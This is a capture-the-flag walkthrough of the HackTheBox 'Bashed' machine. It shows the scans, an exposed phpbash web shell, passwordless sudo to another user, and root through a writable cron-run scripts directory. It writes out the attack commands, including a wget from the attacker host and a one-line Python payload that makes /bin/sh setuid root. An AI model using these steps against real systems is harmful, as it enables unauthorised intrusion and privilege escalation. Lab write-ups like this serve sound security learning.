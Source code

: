 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [Bashed](https://app.hackthebox.com/machines/Bashed)

> [!tip]- Summary with Spoilers
> - I discovered a hidden PHP script called `phpbash.php`, allowing me to execute commands as `www-data`.
> - I used `sudo` to escalate privileges to `scriptmanager`, who had access to the `/scripts` directory.
> - By exploiting a cronjob running as `root`, I injected a malicious Python script to gain a `root` shell.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Fri Jun 28 12:01:48 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oA nmap_tcp t
Warning: 10.10.10.68 giving up on port because retransmission cap hit (6).
Nmap scan report for t (10.10.10.68)
Host is up (0.097s latency).
Not shown: 65386 closed tcp ports (reset), 148 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Only a web server is running.

#### 80/tcp-http

```console
$ whatweb -a3 http://t
http://t [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.68], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]
```

Visiting `http://t`:

![](_/htb-bashed-20240628-1.png)

Running `feroxbuster -k -u http://t -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1` uncovered some interesting directories, including `/uploads` (with an empty index) and `/dev`, the latter with some interesting files:

![](_/htb-bashed-20240628-2.png)

## RCE

Footholds don't get much easier than this one. There's a script called `phpbash.php` in a directory that's quickly discoverable via fuzzing. And that's the whole foothold:

![](_/htb-bashed-20240628-3.png)

Conveniently, the flag belongs to another user but it's readable:

```console
$ ls -l /home/arrexel/user.txt
-r--r--r-- 1 arrexel arrexel 33 Jun 28 11:00 /home/arrexel/user.txt
```

## PE

First, I check `sudo` and notice I'm able to become the `scriptmanager` user without a password:

```console
www-data@bashed:/home$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home$ sudo -u scriptmanager bash
scriptmanager@bashed:/home$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

Using `pspy64` I can see some interesting commands being executed as root:

```console
scriptmanager@bashed:/dev/shm$ wget 10.10.14.10/pspy64
--2024-06-28 11:30:07--  http://10.10.14.10/pspy64
Connecting to 10.10.14.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 964408 (942K) [application/octet-stream]
Saving to: 'pspy64'
pspy64              100%[===================>] 941.80K   540KB/s    in 1.7s
2024-06-28 11:30:09 (540 KB/s) - 'pspy64' saved [964408/964408]

scriptmanager@bashed:/dev/shm$ chmod +x pspy64 && ./pspy64
...
2024/06/28 11:22:01 CMD: UID=0     PID=1227   | python test.py
2024/06/28 11:22:01 CMD: UID=0     PID=1226   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
2024/06/28 11:22:01 CMD: UID=0     PID=1225   | /usr/sbin/CRON -f
```

I confirm that the `/scripts` directory is writable as the current user, and I put a malicious script there to make `/bin/sh` run as `setuid=0`:

```console
scriptmanager@bashed:/dev/shm$ cd /scripts/
scriptmanager@bashed:/scripts$ ls -ld .
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 28 11:25 .
scriptmanager@bashed:/scripts$ echo 'import os;os.system("chmod u+s /bin/sh")' > hax.py
```

Once the cronjob runs, I'm able to run `/bin/sh` with the `-p` option so it doesn't drop the privileges:

```console
scriptmanager@bashed:/scripts$ /bin/sh -p
# id
uid=1001(scriptmanager) gid=1001(scriptmanager) euid=0(root) groups=1001(scriptmanager)
# cat /root/root.txt
1c4223...
```
